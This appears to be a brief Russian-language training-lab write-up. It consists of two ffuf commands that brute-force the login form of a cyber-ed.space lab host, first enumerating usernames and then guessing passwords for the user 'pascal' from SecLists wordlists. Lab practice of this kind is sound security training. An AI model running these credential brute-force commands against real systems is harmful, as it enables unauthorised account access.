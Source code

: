 
Поиск пользователя

ffuf -u "http://web.n2vzh01phoywmljp6fan.labs.cyber-ed.space" -X POST -d "name=FUZZ&password=qwe" -H "Content-Type: application/x-www-form-urlencoded" -w Downloads/seclists/Usernames/xato-net-10-million-usernames.txt -fs 2507  

Поиск пароля

ffuf -u "http://web.n2vzh01phoywmljp6fan.labs.cyber-ed.space" -X POST -d "name=pascal&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -w Downloads/seclists/Passwords/xato-net-10-million-passwords-1000000.txt -fs 2510